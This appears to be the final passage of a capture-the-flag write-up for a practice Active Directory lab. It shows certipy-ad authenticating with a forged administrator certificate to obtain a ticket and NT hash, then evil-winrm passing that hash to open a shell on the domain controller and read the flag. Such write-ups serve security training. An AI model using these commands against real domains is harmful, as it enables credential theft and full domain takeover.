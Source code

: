 ```
~$ certipy-ad auth -dc-ip '<IP>' -pfx 'forged_admin.pfx' -username 'administrator' -domain 'certificate.htb'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
~$ [*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
```

<p class="indent-paragraph">
With the forged administrator certificate and corresponding NT hash in hand, the attacker established a remote session using <code>Evil-WinRM</code> and successfully authenticated as <code>Administrator</code> on the Domain Controller. Navigating to the Administrator’s desktop, the attacker accessed the <code>root.txt</code> flag, confirming full domain compromise and the successful completion of the privilege escalation lab.
</p>

```
~$ evil-winrm -i DC01.certificate.htb -u administrator -H d804304519bf0143c14cbf1c024408c6 
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
~$ *Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
**********************************
```







